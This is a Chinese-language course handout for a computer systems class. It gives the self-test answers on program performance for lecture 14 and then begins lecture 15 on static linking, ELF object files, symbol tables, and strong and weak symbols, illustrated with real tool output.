jg loop（a）每个元素要几个周期？（b）只交换其中两条指令的顺序，能降到多少？（c）在（b）的基础上，如果把处理器改成总是预测不跳转，CPE 变成多少？（d）设元素个数是 4 的倍数，展开 4 路（先装入 4 个元素，再做 4 次加法），总是预测跳转时 CPE 是多少？
12．14.20 节的 v4 用分支求绝对值，正数元素 7 个周期、负数元素 12 个周期；v5 用 cmovg，每个元素 8 个周期。设数组中负数的比例为 p，且负数的位置随机。p 小于多少时 v4 更快？
自测题答案#
1．(double)n * n 会被移出循环：n 是传值参数，循环中不会改变，gcc -O1 把 cvtsi2sdq 和 mulsd %xmm1, %xmm1 放在循环之前。k[0] 不会：循环中每次都写 a[i]，而 k 可能指向 a 中的某个元素（内存别名），写过 a[i] 之后 k[0] 的值可能已经变了，所以每次迭代都执行 mulsd (%rdx), %xmm0 重新读它。确知无别名时，应在循环前写 double t = k[0];（14.2、14.8 节）。
2．（a）*xp = 8，*yp = 8 – 5 = 3，*xp = 8 – 3 = 5，结果 x = 5、y = 3，交换成功。（b）xp 与 yp 指向同一个 z：第一句 z = 3 + 3 = 6；第二句 z = 6 – 6 = 0；第三句 z = 0 – 0 = 0，结果是 0，而不是“与自己交换后不变”的 3（默认环境实测）。（c）不能。“先读出两个值再交叉写回”在 xp == yp 时结果是 3，与原程序的 0 不同；编译器必须考虑这种别名，只能按原样逐句读写内存。
3．斜率 CPE = (920 – 520) / (200 – 100) = 4.0，用另一对点核对 (1720 – 920) / (400 – 200) = 4.0；固定开销 = 520 – 4.0 × 100 = 120 个周期。
4．（a）延迟界限就是各运算的延迟：1、4、4、4。吞吐量界限：整数加法有 4 个单元，每周期 4 次，但每个元素还要加载一次，2 个加载单元限制为每周期 2 个元素，取较大者 0.50；整数乘法 1 个单元，1.00；浮点加法、浮点乘法各 2 个单元，0.50（与加载界限相同）。（b）需要 K ≥ C × L = 2 × 4 = 8 个累积变量。
5．两条链：x 链每次迭代一个乘法；y 链每次迭代一个加法，它还要用本次迭代的 x。x 链不依赖 y，按乘法延迟前进；y 的第 i 次加法最早在 xi 算出、并且 yi–1 算出之后开始。稳定后，y 链被 x 链“拖着走”，每次迭代的时间是两个延迟中较大的一个，而不是两者之和。Haswell：max(5, 3) = 5.0；默认环境：max(3, 2) = 3.0（实测 3.1）。
6．combine4：4.0（延迟界限）；2×1：4.0（只减少循环开销）；2×1a：2.0（链上运算减半）；2×2：2.0（两条链）。吞吐量界限为 1 / 2 = 0.50，需要 K ≥ C × L = 2 × 4 = 8 个累积变量。
7．关键路径上每次迭代（4 个元素）的加法个数：（a）3 个（acc + w、+ x、+ (y + z)）；（b）1 个；（c）2 个（acc + (w + x)、+ (y + z)）；（d）1 个。延迟界限分别是 3 × 3 / 4 = 2.25、3 / 4 = 0.75、2 × 3 / 4 = 1.50、0.75；但 Haswell 只有 1 个浮点加法器，每个元素至少 1 个周期（吞吐量界限 1.00），所以 CPE 约为 2.25、1.00、1.50、1.00。在默认环境上（延迟 2、2 个加法器、吞吐量界限 0.50）预测为 1.50、0.50、1.00、0.50，实测 1.49、0.49、0.99、0.49。
8．（a）256 位 = 32 字节，装 4 个 double。（b）需要 K ≥ C × L = 2 × 4 = 8 个向量累积变量；此时每周期完成 2 次向量乘法、即 8 个元素，CPE 下界为 0.125。
9．（a）每个元素平均多出 12.0 – 1.0 = 11.0 个周期，预测错误率为 0.5，所以每次预测错误的处罚约 11.0 / 0.5 = 22 个周期。（b）设预测错误率为 p，分支版的 CPE ≈ 1.0 + 22p，令 1.0 + 22p < 2.0，得 p < 1/22 ≈ 4.5%。预测错误率低于约 4.5% 时保留分支更快；高于它时条件传送更快。
10．（a）k 个累积变量形成 k 条独立的加法链，CPE 约为 max(1/k, 吞吐量界限)。long 加法的延迟只有 1，很快就碰到加载单元的限制：Haswell 有 2 个加载单元，降到 0.50 附近（课件最好 0.54）；默认环境有 3 个，降到 0.33 附近（实测最好 0.34）。（b）x86-64 只有 16 个通用寄存器，除了 k 个累积变量，还要存放数组指针、循环上界等。k 达到 16 左右时寄存器不够用，编译器把一部分累积变量放到栈上（寄存器溢出），这些变量的每次更新都变成“读内存—加法—写内存”，CPE 回升；默认环境上 16 × 16 为 0.47、24 × 24 为 0.56（14.16 节）。
11．（a）6 个周期：5 条指令，加上 mrmovq 与紧随其后读 %r10 的 addq 之间的 1 个加载/使用气泡。（b）把 iaddq $8, %rdi 与 addq %r10, %rax 交换，iaddq 与 %r10 无关，填补了空档，降到 5 个周期。（c）循环末尾的 jg 每次都实际跳转，总是预测不跳转时每次都猜错，每个元素多 2 个周期，CPE 为 7。（d）每次迭代 4 条 mrmovq、4 条 addq、2 条 iaddq 和 1 条 jg，共 11 条；先集中装入，第一条 addq 读的 %r8 早已装好，没有气泡，所以 CPE 为 11 / 4 = 2.75（14.20 节的 PIPE 模型实测 6.00、5.00、7.00、2.75）。
12．v4 的平均代价为 (1 – p) × 7 + p × 12 = 7 + 5p。令 7 + 5p < 8，得 p < 0.2。负数少于两成时分支版更快，多于两成时条件传送更快。PIPE 的分支代价是固定的 2 个周期，并且总是预测跳转，所以结论只取决于负数的比例，与它们的排列无关。负数比例取 0.1、0.2、0.3 时，模型实测 v4 为 7.50、8.00、8.50，v5 都是 8.00。
—— 第 14 讲讲义完 ——
计算机系统导论（ICS）
复习讲义 · 第 15 讲
链接（Linking）
如何使用本讲义#
前面各讲的程序都只有一个源文件，编译一条命令就结束了。真实的程序由许多源文件和库组成，把它们拼成一个可以运行的整体，就是链接（linking）。本讲的课件分成四部分。第一部分是静态链接的原理（15.1–15.9 节）：编译驱动程序怎样依次调用预处理器、编译器、汇编器和链接器；目标文件采用的 ELF 格式里有哪些节；链接器要做的两件事——符号解析（把每个符号引用和唯一的一个定义对应起来）和重定位（合并各个节、给每个符号分配运行时地址、再把所有引用改成这些地址）；最后是可执行文件怎样被加载到内存。第二部分是库（15.10 节）：静态库怎样打包、链接器怎样从库里只取用到的模块、命令行上库的顺序为什么重要。第三部分是动态链接（15.11–15.14 节）：共享库在加载时甚至运行时才链接进来，需要位置无关代码、全局偏移量表和过程链接表的配合。第四部分是一个应用实例——库打桩（15.15 节）：分别在编译时、链接时、运行时截获程序对 malloc 和 free 的调用。
课件用到的每个程序，讲义都给出了完整的源代码、构建命令和默认环境上的实际输出，可以直接照着重做。课件的工具输出来自十年前的工具链，今天的 gcc 有三处默认行为已经不同：生成位置无关的可执行文件、对函数调用使用 R_X86_64_PLT32 重定位类型、把未初始化的全局变量当作强符号。这三处变化各自在相关小节里说明，并给出能重现课件结果的编译选项。课件有几处笔误和不够准确的说法，用橙色方框指出。
表 1 第 15 讲内容地图
| 课件部分 | 核心问题 | 本讲义小节 |
|---|---|---|
| 编译驱动程序（p.3–7） | gcc 依次调用哪些程序，每一步的输入输出是什么 | 15.1 |
| 静态链接与链接器的任务（p.8–13） | 为什么要把程序拆成多个模块再链接；符号解析与重定位各做什么 | 15.2 |
| 目标文件与 ELF（p.14–18） | 三种目标文件；ELF 的各个节；链接视图与执行视图 | 15.3 |
| 符号与符号表（p.19–21） | 全局符号、外部符号、局部符号；局部静态变量 | 15.4 |
| 符号解析（p.20、p.22–25） | 强符号与弱符号；三条规则；链接谜题；怎样避免类型不匹配 | 15.5–15.6 |
| 重定位（p.26–36） | 合并节；重定位条目；PC 相对与绝对两种类型；完整算例 | 15.7–15.8 |
| 加载可执行文件（p.37） | 可执行文件怎样映射成进程的内存映像 | 15.9 |
| 静态库（p.38–44） | 库的打包；链接器解析引用的算法；命令行顺序 | 15.10 |
| 共享库与动态链接（p.45–48） | 共享库解决什么问题；加载时怎样链接 | 15.11 |
| 位置无关代码（教材 7.12 节，课件 p.53 提到 PLT） | GOT 与 PLT 怎样让同一份代码被多个进程共享 | 15.12 |
| 运行时动态链接与所需的库（p.46、p.49–52） | dlopen、dlsym、dlclose；.interp、.dynamic 与 ldd | 15.13 |
| 静态与动态的权衡、小结（p.53–54、p.65） | 两种链接方式的优缺点 | 15.14 |
| 库打桩（p.55–64） | 编译时、链接时、运行时三种截获库函数调用的办法 | 15.15 |
说明：课件页码与小班研讨题的对应
研讨题给出的页码就是 2026 版课件的页码，本讲义引用的也是这套页码，无需换算。2026 版课件删去了 2025 版的两页“Link-time Interpositioning”，但 p.64 的回顾和研讨题 2 第（8）问仍然涉及链接时打桩，讲义在 15.15 节按 2025 版课件和教材 7.13.2 节把这部分补全。课件 p.2 是目录页，p.54 和 p.65 是两页小结，讲义合并在 15.14 节。研讨题 1 对应第一部分（p.4–37），研讨题 2 对应第二到第四部分（p.38–64）。第二部分逐题解答时，前面小节已经完整讲过的内容只给要点并注明小节号。
第一部分 知识点#
15.1 编译驱动程序：从源文件到可执行文件（课件 p.3–7）#
整讲课件围绕一个由两个源文件组成的小程序展开（p.3）。main.c 定义了一个已初始化的全局数组 array 和函数 main，并调用 sum；sum.c 定义函数 sum，把数组的 n 个元素加起来。main.c 第一行的 int sum(int *a, int n); 只是声明，告诉编译器“有这样一个函数，定义在别处”。
/* main.c */ /* sum.c */
int sum(int *a, int n); int sum(int *a, int n)
{
int array[2] = {1, 2}; int i, s = 0;
int main(int argc, char **argv) for (i = 0; i < n; i++) {
{ s += a[i];
int val = sum(array, 2); }
return val; return s;
} }平时用的 gcc 并不是编译器本身，而是编译驱动程序（compiler driver）：它按需要依次调用工具链里的四个程序，把上一步的输出交给下一步（p.4）。图 1（a）画出了这条流水线，表 2列出每一步的输入、输出和单独执行这一步的办法。给 gcc 加上 -v 选项，就能看到它实际执行的每一条命令。
图 1 编译驱动程序的工作（课件 p.4、p.8）：（a）一个源文件经过四个阶段变成可执行文件；（b）两个源文件分别翻译成可重定位目标文件，再由链接器合并
表 2 编译系统的四个阶段（以 hello.c 为例）
| 阶段 | 程序 | 输入 | 输出 | 单独执行这一步 |
|---|---|---|---|---|
| 预处理 | cpp（预处理器） | hello.c | hello.i | gcc -E hello.c -o hello.i，或 cpp hello.c -o hello.i |
| 编译 | cc1（编译器） | hello.i | hello.s | gcc -S hello.i，或直接运行 cc1（路径用 gcc -print-prog-name=cc1 查） |
| 汇编 | as（汇编器，也叫 gas） | hello.s | hello.o | gcc -c hello.s，或 as hello.s -o hello.o |
| 链接 | ld（链接器） | hello.o 和库 | hello | gcc hello.o -o hello（gcc 会替我们补上启动代码和 C 库） |
课件用一个带宏定义的 hello.c 演示前三步（p.5–7）。预处理器只做文本替换：把 #include <stdio.h> 换成 stdio.h 的全部内容（其中包含 printf 的声明 extern int printf (const char *__restrict __format, ...);），把宏 FOO 换成 4，输出仍然是一个 C 源文件。默认环境上 hello.i 有 818 行，最后几行就是替换过的 main。
/* hello.c */
#include <stdio.h>
#define FOO 4
int main(){
printf("hello, world %d\n", FOO);
}
/* hello.i 的末尾（预处理之后） */
extern int printf (const char *__restrict __format, ...);
...
int main(){
printf("hello, world %d\n", 4);
}编译器 cc1 把预处理后的 C 代码翻译成汇编代码 hello.s（p.6）。下面是默认环境上用 gcc -S -fno-pie 得到的结果，省略了几条与内容无关的伪指令，它和课件的清单一致，只是课件略去了 call 之后设置返回值的 movl $0, %eax。字符串常量被放进只读数据节 .rodata，并得到一个只在本文件内有效的标号 .LC0；代码放进 .text 节；printf 只是一个名字，它在哪里，编译器并不知道。
.section .rodata
.LC0:
.string "hello, world %d\n"
.text
.globl main
main:
pushq %rbp
movq %rsp, %rbp
movl $4, %esi # 第二个参数：FOO 已经是常数 4
movl $.LC0, %edi # 第一个参数：字符串的地址（现在还不知道）
movl $0, %eax
call printf # 调用的目标（现在还不知道）
movl $0, %eax
popq %rbp
ret汇编器把 hello.s 翻译成机器指令，按一定的格式打包成可重定位目标文件 hello.o。目标文件是二进制的，不能直接阅读，要借助 readelf、objdump 这样的工具。用 objdump -dr hello.o 反汇编，可以看到两处汇编器不知道地址的地方都先填了 0，并各附一条“以后请改这里”的记录（重定位条目，15.7 节）：
0000000000000000 <main>:
0: 55 push %rbp
1: 48 89 e5 mov %rsp,%rbp
4: be 04 00 00 00 mov $0x4,%esi
9: bf 00 00 00 00 mov $0x0,%edi
a: R_X86_64_32 .rodata
e: b8 00 00 00 00 mov $0x0,%eax
13: e8 00 00 00 00 call 18 <main+0x18>
14: R_X86_64_PLT32 printf-0x4
18: b8 00 00 00 00 mov $0x0,%eax
1d: 5d pop %rbp
1e: c3 ret最后由链接器把 hello.o 和 C 库里 printf 所在的目标模块合并成可执行文件 hello，同时把上面两处 0 改成真正的地址。课件 p.7 展示的就是链接之后的结果。在默认环境上把 hello 静态链接（gcc -static -no-pie hello.o -o hello），再用课件上的三条命令查看，得到的是下面的内容；地址与课件不同（课件上 .rodata 在 0x495d40、main 在 0x401190），含义完全一样。
linux> readelf -S hello | grep rodata
[ 9] .rodata PROGBITS 000000000047f000 07f000 01c1e4 00 A 0 0 32
linux> readelf -s hello | grep -E " main$"
1527: 00000000004017e5 31 FUNC GLOBAL DEFAULT 7 main
linux> readelf -x .rodata hello
0x0047f000 01000200 00000000 0000803f 00004040 ...........?..@@
0x0047f010 68656c6c 6f2c2077 6f726c64 2025640a hello, world %d.
linux> objdump -d hello
00000000004017e5 <main>:
4017e5: 55 push %rbp
4017e6: 48 89 e5 mov %rsp,%rbp
4017e9: be 04 00 00 00 mov $0x4,%esi
4017ee: bf 10 f0 47 00 mov $0x47f010,%edi
4017f3: b8 00 00 00 00 mov $0x0,%eax
4017f8: e8 63 34 00 00 call 404c60 <_IO_printf>
4017fd: b8 00 00 00 00 mov $0x0,%eax
401802: 5d pop %rbp
401803: c3 ret把四段输出连起来读：.rodata 节被安排在地址 0x47f000，字符串 "hello, world %d\n" 位于其中的 0x47f010；main 被安排在 0x4017e5，长 31 字节；main 里原来填 0 的两处，一处变成了字符串的地址 0x47f010（小端法写作 10 f0 47 00），另一处变成了 0x3463，它是 call 的下一条指令地址 0x4017fd 到 printf 的地址 0x404c60 的距离。链接器做的事情，核心就是这两件：给每个符号定下地址，再把所有用到它的地方改对。
⚠ 课件 p.7 的标题与内容
p.7 的标题是 Assembler（汇编器），但页面上四条命令的对象都是链接之后的可执行文件 hello：地址 0x401190、0x495d40 是运行时地址，call 的目标 _IO_printf 也已经确定，这些都是链接器的工作成果。汇编器本身的输出是 hello.o，其中 main 的地址是 0，两处引用都还是 0，如上面的 objdump -dr 所示。读这一页时把它理解成“汇编并链接之后，用二进制工具能看到什么”即可。
15.2 静态链接与链接器的两项任务（课件 p.8–13）#
回到 main.c 和 sum.c。命令 gcc -Og -o prog main.c sum.c 让驱动程序对两个源文件分别执行预处理、编译、汇编，得到 main.o 和 sum.o 两个可重定位目标文件，再调用链接器 ld 把它们（连同必要的系统目标文件）合并成可执行目标文件 prog，如图 1（b）所示。prog 里包含 main.c 和 sum.c 定义的全部函数的代码和数据，在命令行输入 ./prog 就能运行。默认环境上 main 的返回值是 1 + 2 = 3，可以用 echo $? 看到。这种在程序运行之前就把所有模块合并完毕的做法叫静态链接（static linking）。
为什么不干脆把所有代码写进一个源文件，省掉链接这一步？课件给了两个理由。第一个理由是模块化（p.9）：程序可以写成许多较小的源文件，而不是一个巨大的整体；常用的函数可以做成库（数学库、标准 C 库），供所有程序使用。
第二个理由是效率（p.10），又分时间和空间两方面。时间上，各个源文件分别编译（separate compilation）：改动了一个源文件，只需要重新编译这一个文件，再重新链接，其余文件不用动；多个文件还可以同时编译，make 的 -j 选项就是这样加快大型项目构建的。空间上，常用函数集中放在库里，有两种用法：静态链接时，可执行文件和运行时的内存映像里只包含实际用到的那部分库代码；动态链接时，可执行文件里根本不含库代码，运行时所有进程共享内存中的同一份库代码（15.11 节）。
要把若干个目标文件合并成一个可执行文件，链接器必须完成两项任务。
第一项是符号解析（symbol resolution，p.11）。程序定义并引用各种符号，也就是全局变量和函数的名字。课件举了三行代码：void swap() {...} 定义了符号 swap；swap(); 引用了符号 swap；int *xp = &x; 定义了符号 xp，同时引用了符号 x。汇编器把本模块定义和引用的符号记在目标文件的符号表里，符号表是一个数组，每个条目记录一个符号的名字、大小和位置。符号解析要做的，是把每一个符号引用和恰好一个符号定义对应起来。
用 nm 可以列出目标文件的符号表（p.12）。对 main.c 和 sum.c 分别执行 gcc -c，再用 nm 查看，得到：
linux> nm main.o
0000000000000000 D array # D：已初始化数据（.data）中定义的全局符号
0000000000000000 T main # T：代码（.text）中定义的全局符号
U sum # U：未定义（undefined），本模块只是引用
linux> nm sum.o
0000000000000000 T summain.o 定义了 array 和 main，引用了一个自己没有定义的 sum；sum.o 定义了 sum。符号解析把 main.o 里对 sum 的引用对应到 sum.o 里的定义上。前面的地址全是 0，因为在各自的目标文件里，这些符号都位于所在节的开头，真正的地址要到重定位时才确定。课件在 main.c 中多写了一行 int sum1(int *a, int n);，这个函数只声明、没有被调用，nm 的输出里就没有 sum1：汇编器不会为没有用到的声明创建符号表条目。除了 nm，objdump -t 和 readelf -s 也能列出符号表，后者的信息最全（15.4 节）。
第二项是重定位（relocation，p.13）。编译器和汇编器生成的每个目标文件，代码和数据都从地址 0 开始。链接器先把各个输入文件中同类的节合并成一个节，然后把每个符号从它在 .o 文件中的相对位置搬到可执行文件中最终的绝对内存地址，最后修改所有对这些符号的引用，让它们指向新的位置。15.7–15.8 节详细讲这个过程。
15.3 目标文件与 ELF 格式（课件 p.14–18）#
目标文件（课件也称为模块，module）有三种形式（p.14）。可重定位目标文件（.o 文件）包含二进制代码和数据，其形式适合与其他可重定位目标文件合并，生成可执行目标文件；每个 .o 文件恰好由一个 .c 源文件产生。可执行目标文件（历史上默认叫 a.out）包含的代码和数据可以直接复制进内存并执行。共享目标文件（.so 文件）是一种特殊的可重定位目标文件，可以在加载时或运行时被动态地加载进内存并链接，Windows 上称为动态链接库（DLL）。
这三种文件在 Linux 上采用同一种格式：ELF（Executable and Linkable Format，可执行可链接格式），统称 ELF 二进制文件（p.15）。ELF 最早出现在 1989 年前后的 System V Release 4 Unix 中，Linux 在 1995 年前后改用 ELF，各种 BSD 系统在 1998–2000 年前后跟进。其他系统有各自的格式（Windows 用 PE，macOS 用 Mach-O），基本概念是相通的。用 file 命令可以查看一个文件属于哪一种：
linux> file main.o prog libvector.so
main.o: ELF 64-bit LSB relocatable, x86-64, ...
prog: ELF 64-bit LSB executable, x86-64, ... dynamically linked, ...
libvector.so: ELF 64-bit LSB shared object, x86-64, ...ELF 文件的组成#
一个 ELF 目标文件从头到尾由图 2（a）所示的几部分组成（p.16–17）。最前面是 64 字节的 ELF 头（ELF header），记录字长、字节顺序、文件类型（可重定位、可执行还是共享）、机器类型、节头部表的位置等总体信息。接下来是段头部表（课件写作 segment header table，标准名称是程序头部表 program header table），描述文件内容怎样映射到内存的段，只有可执行文件必须有，可重定位目标文件没有。中间是各个节（section）。文件末尾是节头部表（section header table），每个节在其中占一个条目，记录这个节的名字、类型、在文件中的偏移和大小。
图 2 ELF 文件的结构（课件 p.16–18）：（a）典型的可重定位目标文件；（b）同一种格式的两种视图，链接时按节组织，执行时按段组织
各个节的用途见表 3。其中最值得留意的是 .bss：它存放未初始化的（以及初始化为 0 的）全局变量和静态变量，这些变量的初值全是 0，没有必要在文件里真的存一串 0，所以 .bss 节在文件中不占空间，节头部表里只记下它需要多大，程序加载时再由操作系统分配并清零。这个名字起源于早期汇编器的伪指令“Block Started by Symbol”，课件给了一个更好记的解释：“Better Save Space”。
表 3 ELF 可重定位目标文件中常见的节
| 节 | 内容 | 说明 |
|---|---|---|
| .text | 已编译程序的机器代码 | 只读、可执行 |
| .rodata | 只读数据 | printf 的格式串、switch 的跳转表、const 全局变量 |
| .data | 已初始化的全局变量和静态变量 | 初值不为 0 的那些；局部变量不在这里，它们在栈上或寄存器里 |
| .bss | 未初始化、或初始化为 0 的全局变量和静态变量 | 有节头部条目，但在文件中不占空间 |
| .symtab | 符号表 | 本模块定义和引用的函数、全局变量、静态变量的名字，以及节的名字和位置；不需要 -g 也有 |
| .rel.text（.rela.text） | .text 节的重定位信息 | 列出代码中链接时需要修改的位置，以及怎样修改 |
| .rel.data（.rela.data） | .data 节的重定位信息 | 列出数据中需要修改的位置，例如初值是另一个全局变量地址的指针 |
| .debug | 调试符号表 | 局部变量、类型定义、源文件行号等，用 gcc -g 编译才有 |
| .strtab | 字符串表 | .symtab 和 .debug 中各个符号的名字，以及节的名字，以 null 结尾的字符串 |
课件和教材把重定位节写作 .rel.text 和 .rel.data，这是 32 位 x86 上的名字；x86-64 的重定位条目多带一个加数（addend）字段，节的名字相应地成了 .rela.text 和 .rela.data，下面实测的输出里看到的就是后者。
把这张表和真实的文件对一下。用 readelf -h main.o 可以读出 ELF 头：Class 为 ELF64，Data 为 2's complement, little endian（补码、小端），Type 为 REL (Relocatable file)，Machine 为 Advanced Micro Devices X86-64；程序头的个数是 0；节头部表从文件的第 432 字节开始，共 10 个条目，每个 64 字节。10 个节由 readelf -S main.o 列出：
linux> readelf -S -W main.o
[Nr] Name Type Address Off Size ES Flg Lk Inf Al
[ 0] NULL 0000000000000000 000000 000000 00 0 0 0
[ 1] .text PROGBITS 0000000000000000 000040 000026 00 AX 0 0 1
[ 2] .rela.text RELA 0000000000000000 000130 000030 18 I 7 1 8
[ 3] .data PROGBITS 0000000000000000 000068 000008 00 WA 0 0 8
[ 4] .bss NOBITS 0000000000000000 000070 000000 00 WA 0 0 1
[ 5] .comment PROGBITS 0000000000000000 000070 00002e 01 MS 0 0 1
[ 6] .note.GNU-stack PROGBITS 0000000000000000 00009e 000000 00 0 0 1
[ 7] .symtab SYMTAB 0000000000000000 0000a0 000078 18 8 2 8
[ 8] .strtab STRTAB 0000000000000000 000118 000017 00 0 0 1
[ 9] .shstrtab STRTAB 0000000000000000 000160 00004a 00 0 0 1这张清单值得逐列读一遍。.text 节紧跟在 64 字节（0x40）的 ELF 头之后，长 0x26 = 38 字节，正是 main 函数的机器代码；标志 AX 表示加载时要分配内存（A）并且可执行（X）。.data 节长 8 字节，就是数组 array 的两个 int；标志 WA 表示可写。.bss 的类型是 NOBITS，本例中大小为 0。.symtab 长 0x78 = 120 字节，每个条目 0x18 = 24 字节，共 5 个符号。.rela.text 长 0x30 = 48 字节，每个条目 24 字节，共 2 个重定位条目。所有节的 Address 一列都是 0：可重定位目标文件里的节还没有运行时地址。.comment 记录编译器的版本，.note.GNU-stack 是一个空的标记节，表示这个模块不需要可执行的栈（第 8 讲），.shstrtab 存放各个节的名字。
同一个文件的两种视图#
ELF 格式之所以能同时服务于链接和执行，是因为它为同一份内容提供了两种组织方式，如图 2（b）所示。链接视图按节组织，靠节头部表索引：链接器要分别处理代码、数据、符号表、重定位信息，所以参与链接的文件必须有节头部表，程序头部表可有可无。执行视图按段（segment）组织，靠程序头部表索引：加载程序时，操作系统只关心哪一块文件内容要映射到哪个地址、有什么访问权限，于是访问权限相同的若干个节被归并成一个段，一起映射；可执行文件必须有程序头部表，节头部表反而是可选的。可重定位目标文件不会被直接执行，所以没有程序头部表，前面 readelf -h 输出中“程序头的个数是 0”就是这个意思。可执行文件的程序头部表在 15.9 节再看。
15.4 符号与符号表（课件 p.19–21）#
站在某个模块 m 的角度，链接器关心的符号有三类（p.19）。全局符号（global symbol）是由模块 m 定义、能被其他模块引用的符号，对应非 static 的 C 函数和非 static 的全局变量。外部符号（external symbol）是被模块 m 引用、但由其他模块定义的全局符号。局部符号（local symbol）是只由模块 m 定义和引用的符号，对应带 static 属性的 C 函数和全局变量，它们在模块 m 内的任何地方可见，但其他模块不能引用。
需要特别分清的是，链接器的局部符号并不是程序的局部变量（p.19 的红字）。函数里普通的局部变量在运行时由栈或寄存器管理，链接器对它们一无所知，符号表里根本没有它们。拿课件的例子来说（p.20）：main.c 中的 array、main 是定义的全局符号，sum 是引用的外部符号；sum.c 中的 sum 是定义的全局符号；而 main 里的 val，sum 里的 i 和 s 都是局部变量，链接器不知道它们的存在。15.3 节 main.o 的 .symtab 一共 5 个条目，readelf -s main.o 把它们全部列出：
linux> readelf -s main.o
Num: Value Size Type Bind Vis Ndx Name
0: 0000000000000000 0 NOTYPE LOCAL DEFAULT UND
1: 0000000000000000 0 FILE LOCAL DEFAULT ABS main.c
2: 0000000000000000 8 OBJECT GLOBAL DEFAULT 3 array
3: 0000000000000000 38 FUNC GLOBAL DEFAULT 1 main
4: 0000000000000000 0 NOTYPE GLOBAL DEFAULT UND sum每一行是一个符号表条目，对应教材图 7.4 的结构 Elf64_Sym 的各个字段。Name 是符号的名字（条目里存的是它在字符串表中的偏移）。Type 说明符号是数据（OBJECT）、函数（FUNC）还是别的。Bind 说明符号是局部的（LOCAL）还是全局的（GLOBAL）。Ndx 是符号所在节在节头部表中的序号：array 在 3 号节，查上一节的清单是 .data；main 在 1 号节，是 .text。Value 在可重定位目标文件中是符号相对于所在节起始位置的偏移，在可执行文件中则是绝对的运行时地址。Size 是目标的字节数：array 占 8 字节，main 占 38 字节。
Ndx 一列还可能出现三个不对应任何真实节的特殊值，叫伪节（pseudosection）：UND 表示未定义，即本模块引用、在别处定义的符号，上面的 sum 就是；ABS 表示不该被重定位的符号，例如记录源文件名的那一条；COMMON（readelf 显示为 COM）表示还没有分配位置的未初始化数据，下一节讲强弱符号时会用到。
带 static 的局部静态变量是一个容易出错的地方（p.21）。函数内用 static 声明的变量不放在栈上，编译器在 .data 或 .bss 中为它分配空间，并在符号表中创建一个名字唯一的局部符号。课件的例子 static-local.c 里有三个都叫 x 的静态变量：
static int x = 15; /* 文件作用域的静态变量 */
int f() {
static int x = 17; /* f 的局部静态变量 */
return x++;
}
int g() {
static int x = 19; /* g 的局部静态变量 */
return x += 14;
}
int h() {
return x += 27; /* 用的是文件作用域的 x */
}三个 x 是三个不同的变量，各占 4 字节。编译器在 .data 节里为它们各分配一块空间，并在符号表里给后两个改了名字。默认环境的 gcc 13 把它们叫作 x、x.1、x.0，课件上较早的 gcc 给的名字是 x、x.1721、x.1724，后缀只要互不相同即可：
linux> readelf -s static-local.o
3: 0000000000000000 4 OBJECT LOCAL DEFAULT 3 x
4: 0000000000000004 4 OBJECT LOCAL DEFAULT 3 x.1
5: 0000000000000008 4 OBJECT LOCAL DEFAULT 3 x.0
6: 0000000000000000 21 FUNC GLOBAL DEFAULT 1 f
7: 0000000000000015 27 FUNC GLOBAL DEFAULT 1 g
8: 0000000000000030 27 FUNC GLOBAL DEFAULT 1 h
linux> objdump -s -j .data static-local.o
0000 0f000000 11000000 13000000.data 节的 12 个字节依次是 15、17、19，所以偏移 4 处的 x.1 是 f 的那个 x，偏移 8 处的 x.0 是 g 的那个 x。三个符号都是 LOCAL，其他模块看不到它们；f、g、h 没有加 static，是 GLOBAL。
为了把各种 C 声明和符号表条目的对应关系一次看全，下面的 kinds.c 把常见的情形都写了一遍，表 4是用 gcc 13 编译后 readelf -s kinds.o 的结果。
extern int ext_var; /* 声明：别处定义 */
int ext_func(int); /* 声明：别处定义 */
int unused_decl(int); /* 声明了但没有用到 */
int g_init = 1; /* 已初始化的全局变量 */
int g_zero = 0; /* 初始化为 0 的全局变量 */
int g_uninit; /* 未初始化的全局变量 */
static int s_init = 2; /* 静态全局变量 */
static int s_uninit;
const int g_const = 5; /* 只读全局变量 */
char *msg = "hi"; /* 指针变量，初值是一个地址 */
static int helper(int v) { return v + s_init + s_uninit; }
int api(int v)
{
int local = v * 2; /* 局部变量：在栈上或寄存器里 */
static int counter; /* 局部静态变量 */
counter++;
return helper(local) + ext_func(ext_var) + g_init + g_zero + g_uninit + g_const;
}表 4 kinds.c 中各个名字在符号表中的情况（gcc 13 实测）
| C 中的名字 | 有无条目 | Bind | 所在节 | 说明 |
|---|---|---|---|---|
| g_init | 有 | GLOBAL | .data | 已初始化且初值非 0 |
| g_zero | 有 | GLOBAL | .bss | 初值为 0 也放 .bss，文件里不必存这个 0 |
| g_uninit | 有 | GLOBAL | .bss | 加 -fcommon 编译时是 COMMON（15.5 节） |
| s_init、s_uninit | 有 | LOCAL | .data、.bss | static 只改变可见范围，不改变存放位置 |
| g_const | 有 | GLOBAL | .rodata | const 全局变量放在只读数据节 |
| msg | 有 | GLOBAL | .data | 8 字节的指针；初值是字符串的地址，需要重定位（.rela.data 中有一条） |
| helper | 有 | LOCAL | .text | static 函数 |
| api | 有 | GLOBAL | .text | 普通函数 |
| counter | 有（名为 counter.0） | LOCAL | .bss | 局部静态变量，未初始化 |
| ext_var、ext_func | 有 | GLOBAL | UND | 被引用的外部符号；类型为 NOTYPE，汇编器不知道它是变量还是函数 |
| unused_decl | 无 | — | — | 只声明、未使用 |
| local、参数 v | 无 | — | — | 局部变量和参数不是链接器符号 |
15.5 符号解析：强符号与弱符号（课件 p.20、p.22–23）#
对局部符号的引用，解析起来很简单：编译器保证每个模块中每个局部符号只有一个定义。麻烦在全局符号。编译器遇到一个不在当前模块中定义的名字，会假设它在别的模块中定义，生成一个 UND 条目交给链接器；链接器如果在所有输入模块里都找不到它的定义，就报出“undefined reference to ...”的错误。反过来，如果多个模块定义了同名的全局符号，链接器该怎么办？这就是课件 p.20 末尾提出的问题。
传统的 Unix 链接器这样处理（p.22）：编译器把每个全局符号标成强（strong）或弱（weak），由汇编器把这个信息隐含地编码在符号表里。函数和已初始化的全局变量是强符号，未初始化的全局变量是弱符号。课件 p.22 用两个源文件说明这种划分，旁边标出了每个符号的强弱：
/* p1.c */ /* p2.c */
int foo = 5; /* 强 */ int foo; /* 弱 */
p1() { /* 强 */ p2() { /* 强 */
} }两个模块都定义了全局变量 foo：p1.c 中的 foo 有初值 5，是强符号；p2.c 中的 foo 没有初值，是弱符号。两个函数 p1 和 p2 都是强符号，名字不同，互不相干。课件的代码只是示意，把它补成能运行的程序：p1.c 里加一个 main，依次调用 p1、p2 并打印 foo；p2 打印它看到的 foo 的地址和值。用 -fcommon（原因见下面的方框）编译后查看符号表并运行：
